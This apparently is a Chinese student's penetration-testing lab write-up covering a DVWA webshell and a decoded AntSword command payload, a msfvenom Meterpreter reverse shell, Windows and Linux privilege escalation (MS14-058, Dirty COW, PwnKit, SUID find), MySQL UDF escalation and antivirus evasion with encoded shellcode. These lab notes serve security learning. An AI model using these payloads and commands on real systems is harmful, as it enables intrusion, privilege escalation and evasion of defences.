

## 作业1：
### 网络层面后门分析
- 首先是通过文件上传，将一句话木马文件，上传至dvwa,然后通过蚁剑连接
```php
<?php
      $name = $_POST[1];
      $name = substr($name, 0);
      eval("echo 123;" . $name. "echo 456; ")
?>
```

- 当前场景为物理机为跳板机，虚拟机win7为靶场，通过跳板机，攻击win7的web服务
- 在当前物理机上开启wireshark监听，通过检索目的地址进行数据包筛选
```
ip.dst == 192.168.0.106 && http
找到对应数据包后通过右键，追踪流，查看完整数据包信息
```

- 数据包
```
POST /DVWA/hackable/uploads/info5.php HTTP/1.1
Host: 192.168.0.106
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:16.0.1) Gecko/20121011 Firefox/21.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 4165
Connection: close

1=%40ini_set(%22display_errors%22%2C%20%220%22)%3B%40set_time_limit(0)%3Bfunction%20asenc(%24out)%7Breturn%20%24out%3B%7D%3Bfunction%20asoutput()%7B%24output%3Dob_get_contents()%3Bob_end_clean()%3Becho%20%22f3a67%22.%22c7bb61%22%3Becho%20%40asenc(%24output)%3Becho%20%2271fb%22.%225b2d%22%3B%7Dob_start()%3Btry%7B%24p%3Dbase64_decode(substr(%24_POST%5B%22lb479cecbced54%22%5D%2C2))%3B%24s%3Dbase64_decode(substr(%24_POST%5B%22bbe7f1c781cd75%22%5D%2C2))%3B%24envstr%3D%40base64_decode(substr(%24_POST%5B%22mbb56c8feb82f1%22%5D%2C2))%3B%24d%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3B%24c%3Dsubstr(%24d%2C0%2C1)%3D%3D%22%2F%22%3F%22-c%20%5C%22%7B%24s%7D%5C%22%22%3A%22%2Fc%20%5C%22%7B%24s%7D%5C%22%22%3Bif(substr(%24d%2C0%2C1)%3D%3D%22%2F%22)%7B%40putenv(%22PATH%3D%22.getenv(%22PATH%22).%22%3A%2Fusr%2Flocal%2Fsbin%3A%2Fusr%2Flocal%2Fbin%3A%2Fusr%2Fsbin%3A%2Fusr%2Fbin%3A%2Fsbin%3A%2Fbin%22)%3B%7Delse%7B%40putenv(%22PATH%3D%22.getenv(%22PATH%22).%22%3BC%3A%2FWindows%2Fsystem32%3BC%3A%2FWindows%2FSysWOW64%3BC%3A%2FWindows%3BC%3A%2FWindows%2FSystem32%2FWindowsPowerShell%2Fv1.0%2F%3B%22)%3B%7Dif(!empty(%24envstr))%7B%24envarr%3Dexplode(%22%7C%7C%7Casline%7C%7C%7C%22%2C%20%24envstr)%3Bforeach(%24envarr%20as%20%24v)%20%7Bif%20(!empty(%24v))%20%7B%40putenv(str_replace(%22%7C%7C%7Caskey%7C%7C%7C%22%2C%20%22%3D%22%2C%20%24v))%3B%7D%7D%7D%24r%3D%22%7B%24p%7D%20%7B%24c%7D%22%3Bfunction%20fe(%24f)%7B%24d%3Dexplode(%22%2C%22%2C%40ini_get(%22disable_functions%22))%3Bif(empty(%24d))%7B%24d%3Darray()%3B%7Delse%7B%24d%3Darray_map('trim'%2Carray_map('strtolower'%2C%24d))%3B%7Dreturn(function_exists(%24f)%26%26is_callable(%24f)%26%26!in_array(%24f%2C%24d))%3B%7D%3Bfunction%20runshellshock(%24d%2C%20%24c)%20%7Bif%20(substr(%24d%2C%200%2C%201)%20%3D%3D%20%22%2F%22%20%26%26%20fe('putenv')%20%26%26%20(fe('error_log')%20%7C%7C%20fe('mail')))%20%7Bif%20(strstr(readlink(%22%2Fbin%2Fsh%22)%2C%20%22bash%22)%20!%3D%20FALSE)%20%7B%24tmp%20%3D%20tempnam(sys_get_temp_dir()%2C%20'as')%3Bputenv(%22PHP_LOL%3D()%20%7B%20x%3B%20%7D%3B%20%24c%20%3E%24tmp%202%3E%261%22)%3Bif%20(fe('error_log'))%20%7Berror_log(%22a%22%2C%201)%3B%7D%20else%20%7Bmail(%22a%40127.0.0.1%22%2C%20%22%22%2C%20%22%22%2C%20%22-bv%22)%3B%7D%7D%20else%20%7Breturn%20False%3B%7D%24output%20%3D%20%40file_get_contents(%24tmp)%3B%40unlink(%24tmp)%3Bif%20(%24output%20!%3D%20%22%22)%20%7Bprint(%24output)%3Breturn%20True%3B%7D%7Dreturn%20False%3B%7D%3Bfunction%20runcmd(%24c)%7B%24ret%3D0%3B%24d%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3Bif(fe('system'))%7B%40system(%24c%2C%24ret)%3B%7Delseif(fe('passthru'))%7B%40passthru(%24c%2C%24ret)%3B%7Delseif(fe('shell_exec'))%7Bprint(%40shell_exec(%24c))%3B%7Delseif(fe('exec'))%7B%40exec(%24c%2C%24o%2C%24ret)%3Bprint(join(%22%0A%22%2C%24o))%3B%7Delseif(fe('popen'))%7B%24fp%3D%40popen(%24c%2C'r')%3Bwhile(!%40feof(%24fp))%7Bprint(%40fgets(%24fp%2C2048))%3B%7D%40pclose(%24fp)%3B%7Delseif(fe('proc_open'))%7B%24p%20%3D%20%40proc_open(%24c%2C%20array(1%20%3D%3E%20array('pipe'%2C%20'w')%2C%202%20%3D%3E%20array('pipe'%2C%20'w'))%2C%20%24io)%3Bwhile(!%40feof(%24io%5B1%5D))%7Bprint(%40fgets(%24io%5B1%5D%2C2048))%3B%7Dwhile(!%40feof(%24io%5B2%5D))%7Bprint(%40fgets(%24io%5B2%5D%2C2048))%3B%7D%40fclose(%24io%5B1%5D)%3B%40fclose(%24io%5B2%5D)%3B%40proc_close(%24p)%3B%7Delseif(fe('antsystem'))%7B%40antsystem(%24c)%3B%7Delseif(runshellshock(%24d%2C%20%24c))%20%7Breturn%20%24ret%3B%7Delseif(substr(%24d%2C0%2C1)!%3D%22%2F%22%20%26%26%20%40class_exists(%22COM%22))%7B%24w%3Dnew%20COM('WScript.shell')%3B%24e%3D%24w-%3Eexec(%24c)%3B%24so%3D%24e-%3EStdOut()%3B%24ret.%3D%24so-%3EReadAll()%3B%24se%3D%24e-%3EStdErr()%3B%24ret.%3D%24se-%3EReadAll()%3Bprint(%24ret)%3B%7Delse%7B%24ret%20%3D%20127%3B%7Dreturn%20%24ret%3B%7D%3B%24ret%3D%40runcmd(%24r.%22%202%3E%261%22)%3Bprint%20(%24ret!%3D0)%3F%22ret%3D%7B%24ret%7D%22%3A%22%22%3B%3B%7Dcatch(Exception%20%24e)%7Becho%20%22ERROR%3A%2F%2F%22.%24e-%3EgetMessage()%3B%7D%3Basoutput()%3Bdie()%3B&bbe7f1c781cd75=0KY2QgL2QgIkM6XFxVc2Vyc1xcbXlzdGljYWxcXERlc2t0b3BcXHBocHN0dWR5XFxwaHBzdHVkeV9wcm9cXFdXV1xcRFZXQVxcaGFja2FibGVcXHVwbG9hZHMiJmlwY29uZmlnJmVjaG8gW1NdJmNkJmVjaG8gW0Vd&lb479cecbced54=LpY21k&mbb56c8feb82f1=BjHTTP/1.1 200 OK
Date: Fri, 01 Dec 2023 03:25:12 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
X-Powered-By: PHP/5.3.29
Connection: close
Transfer-Encoding: chunked
Content-Type: text/html

123f3a67c7bb61
Windows IP ....


............ Bluetooth ........:

   ........  . . . . . . . . . . . . : ..........
   .......... DNS .... . . . . . . . : 

............ ........:

   .......... DNS .... . . . . . . . : 
   ........ IPv6 ..... . . . . . . . : fe80::e088:d6d8:3b65:b824%11
   IPv4 .... . . . . . . . . . . . . : 192.168.0.106
   ........  . . . . . . . . . . . . : 255.255.255.0
   ......... . . . . . . . . . . . . : 192.168.0.1

.......... isatap.{7C8D0B6F-3165-4DBE-8DAB-74316CE3A173}:

   ........  . . . . . . . . . . . . : ..........
   .......... DNS .... . . . . . . . : 

.......... isatap.{6476345A-1F08-4275-BF67-63CCF91FC41B}:

   ........  . . . . . . . . . . . . : ..........
   .......... DNS .... . . . . . . . : 
[S]
C:\Users\mystical\Desktop\phpstudy\phpstudy_pro\WWW\DVWA\hackable\uploads
[E] 
71fb5b2d
```
- 通过url解码数据体部分可得
```
1=@ini_set("display_errors", "0");@set_time_limit(0);function asenc($out){return $out;};function asoutput(){$output=ob_get_contents();ob_end_clean();echo "f3a67"."c7bb61";echo @asenc($output);echo "71fb"."5b2d";}ob_start();try{$p=base64_decode(substr($_POST["lb479cecbced54"],2));$s=base64_decode(substr($_POST["bbe7f1c781cd75"],2));$envstr=@base64_decode(substr($_POST["mbb56c8feb82f1"],2));$d=dirname($_SERVER["SCRIPT_FILENAME"]);$c=substr($d,0,1)=="/"?"-c \"{$s}\"":"/c \"{$s}\"";if(substr($d,0,1)=="/"){@putenv("PATH=".getenv("PATH").":/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin");}else{@putenv("PATH=".getenv("PATH").";C:/Windows/system32;C:/Windows/SysWOW64;C:/Windows;C:/Windows/System32/WindowsPowerShell/v1.0/;");}if(!empty($envstr)){$envarr=explode("|||asline|||", $envstr);foreach($envarr as $v) {if (!empty($v)) {@putenv(str_replace("|||askey|||", "=", $v));}}}$r="{$p} {$c}";function fe($f){$d=explode(",",@ini_get("disable_functions"));if(empty($d)){$d=array();}else{$d=array_map('trim',array_map('strtolower',$d));}return(function_exists($f)&&is_callable($f)&&!in_array($f,$d));};function runshellshock($d, $c) {if (substr($d, 0, 1) == "/" && fe('putenv') && (fe('error_log') || fe('mail'))) {if (strstr(readlink("/bin/sh"), "bash") != FALSE) {$tmp = tempnam(sys_get_temp_dir(), 'as');putenv("PHP_LOL=() { x; }; $c >$tmp 2>&1");if (fe('error_log')) {error_log("a", 1);} else {mail("a@127.0.0.1", "", "", "-bv");}} else {return False;}$output = @file_get_contents($tmp);@unlink($tmp);if ($output != "") {print($output);return True;}}return False;};function runcmd($c){$ret=0;$d=dirname($_SERVER["SCRIPT_FILENAME"]);if(fe('system')){@system($c,$ret);}elseif(fe('passthru')){@passthru($c,$ret);}elseif(fe('shell_exec')){print(@shell_exec($c));}elseif(fe('exec')){@exec($c,$o,$ret);print(join("
",$o));}elseif(fe('popen')){$fp=@popen($c,'r');while(!@feof($fp)){print(@fgets($fp,2048));}@pclose($fp);}elseif(fe('proc_open')){$p = @proc_open($c, array(1 => array('pipe', 'w'), 2 => array('pipe', 'w')), $io);while(!@feof($io[1])){print(@fgets($io[1],2048));}while(!@feof($io[2])){print(@fgets($io[2],2048));}@fclose($io[1]);@fclose($io[2]);@proc_close($p);}elseif(fe('antsystem')){@antsystem($c);}elseif(runshellshock($d, $c)) {return $ret;}elseif(substr($d,0,1)!="/" && @class_exists("COM")){$w=new COM('WScript.shell');$e=$w->exec($c);$so=$e->StdOut();$ret.=$so->ReadAll();$se=$e->StdErr();$ret.=$se->ReadAll();print($ret);}else{$ret = 127;}return $ret;};$ret=@runcmd($r." 2>&1");print ($ret!=0)?"ret={$ret}":"";;}catch(Exception $e){echo "ERROR://".$e-getMessage();};asoutput();die();
```
- 通过解码后的数据体进行分析，上述是php代码编写，包括变量、控制结构（如 if 语句和循环）、函数和错误处理。
- 通过请求头信息，可以看到/DVWA/hackable/uploads/info5.php该后门文件的位置
- 通过一些关键字，可以明显看出调用了window系统的cmd，进行了命令执行
- 通过响应结果可以看出，是执行了ipconfig命令

## 作业2
### windows提权实战
```
靶机为win7
1.通过文件上传，在win7上传一个webshell，然后通过蚁剑连接，得到win7普通用户的权限

2.通过kali的msf制作一个后门程序，通过得到的普通用户权限，将后门文件上传到靶机

3. 通过kali监听后门程序

4. 在目标机器上运行后门程序

5. kali中目标机器上线， 拿到meterpreter命令行，形成会话

6. 结合其他漏洞实现提权
```
- 使用msfvenom生成后门程序
```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.0.99 lport=5555 -f exe -o 5555.exe
```

- 开启msf监听
```
msfconsole
use exploit/multi/handler
options
set payload windows/x64/meterpreter/reverse.tcp
set lhost 192.168.0.99
set lport 5555
run
```
- 通过蚁剑，将5555.exe上传到指定位置，然后通过虚拟终端，直接执行5555.exe
- 在kali上得到meterpreter
- 在kali上进入shell，通过systeminfo进行信息收集
```
shell -> systeminfo
```

- 使用exit回到meterpreter
- 使用getuid，可以查看当前用户权限

- 使用run post/windows/gather/enum_patches 查看补丁信息

- 之后通过run post/multi/recon/local_exploit_suggester进行可利用提权exp查询

- 下面进行提权，将当前会话隐藏到后台，进入msfconsole
```
background
```
- 后续可以利用sessions命令对后台会话进行查看和进入
```
sessions -l  查看后台会话

sessions -i <会话编号>  进入指定会话
```

- 使用windows/local/ms14_058_track_popup_menu 进行提权
```
use windows/local/ms14_058_track_popup_menu
options

set session 1

set target windows x64

set payload windows/x64/meterpreter/reverse_tcp

exploit

成功拿到系统权限
```


## 作业3
### Linux提权 - 脏牛提权
- 上传dirty.c文件到家目录（我是通过Metasploitable-2中dvwa的文件上传，上传的文件）

- 使用gcc进行编译：gcc -pthread dirty.c -o dirty -lcrypt


- 运行生成的程序
```
./dirty zyf123
```

- 生成了一个名为firefart的uid为0的root权限用户


### Linux提权 - SUID提权
- 使用文件上传，用蚁剑连接上传的webshell

- 利用find命令提权
```
find / -name one.php -exec "whoami" \;
```


### Linux提权 - Polkit提权
- 利用：上传exp，给权限执行cve-2021-4034-poc即可提权获得root权限

- 直接执行容器内现成的exp脚本文件



## 作业4
### 数据库提权：UDF提权实验
- 通过网站漏洞获取一个shell，如webshell

- 使用navicat或其他软件连接数据库
```
记得开启远程连接权限
grant all privileges on *.* to "root"@"%" identified by "密码";

# 创建用户
CREATE USER 'admin'@'%' IDENTIFIED BY 'pwd123';

# 授予用户dvwa库权限
grant all on dvwa.* to 'admin'@'%';

# Mysql配置文件增加 srcure-file-priv选项
secure_file_priv=
```

- 使用mysql查询语句进行信息收集
```
新建查询，查询Mysql系统位数：64位数
show variables like '%compile%'; 
```


- 查看plugin的绝对路径
```
show variables like 'plugin%';
```

```
绝对路径为：C:\Users\mystical\Desktop\phpstudy\phpstudy_pro\Extensions\MySQL5.7.26\lib\plugin\
若无该目录，自己新建
```

- 查询secure_file_priv的值是否为空
```
show variables like '%secure%';
```

- 因为是null值，所以需要修改，如果是通过webshell传递文件，该项可以忽略

- 在mysql配置文件中添加srcure-file-priv=''


- 重启mysql后刷新，然后执行sql查询语句发现null不见了
```
show variables like '%secure%';
```


- 制作提权dll(动态链接库)
- sqlmap中编码后的dll文件路径
```
D:\doc\sqlmap\sqlmapproject\sqlmap\data\udf\mysql\windows\64\lib_mysqludf_sys.dll_
```
- 利用cloak.py进行解码获得mysqludf.sys.dll文件，cloak.py在sqlmap/extra/cloak目录下
```
python cloak.py -d -i lib_mysqludf_sys.dll_
```
- 使用蚁剑在之前查询目录中（自己创建），上传编码后的lib_mysqludf_sys.dll


- 创建sys_eval函数，提权
```
create function sys_eval returns string soname 'lib_mysqludf_sys.dll';
```


- 调用函数进行提权
```
select sys_eval('whoami');
```


- 这里提权后的用户是mystical-pc/mystical,原因是创建mysql的时候使用的是mystical用户创建的，如果创建的时候是管理账户，则提权后用户就是管理权限用户


## 作业5
### 免杀：MSF 编码器结合 shellcode 加载器进行免杀实验。
- 原后门程序的免杀效果很差


- 利用编码器生成jpg文件
```
msfvenom -p windows/meterpreter/reverse_tcp -e x64/shikata_ga_nai -i 7 -b '\x00' lhost=192.168.0.99 lport=5558 -f raw -o crowsec.jpg
```

- 质量提高很多

- shellcode加载器测试

- 免杀效果也不错

- 将生成的图片马和shellcode加载器上传到目标服务器（crowsec.jpg和ms.exe放在同一目录，点击ms.exe即可上线）

- 将msvcr110.dll放在C:\\windows\SysWOW64下

- 开启监听


- 运行ms.exe


监听成功